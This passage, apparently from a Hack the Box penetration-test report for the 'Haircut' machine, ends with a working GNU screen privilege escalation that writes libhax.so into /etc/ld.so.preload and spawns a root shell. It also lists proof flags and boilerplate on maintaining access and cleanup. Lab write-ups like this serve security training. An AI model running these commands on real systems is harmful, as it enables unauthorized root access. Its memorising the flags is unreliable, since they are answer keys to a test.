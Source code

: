 ```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0alibhax.so"
screen -ls 
/tmp/rootshell
```

we get a root shell.

\newpage

**Proof.txt Contents**

```txt
4cfa26d84b2220826a07f0697dc72151
```

\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the haircut machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the Box should not have to remove any user accounts or services from the system.

\newpage

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.24   |  4cfa26d84b2220826a07f0697dc72151 | 6316ebf1106bb844ca5039e5c44acf96

\newpage

## Appendix - /etc/passwd contents
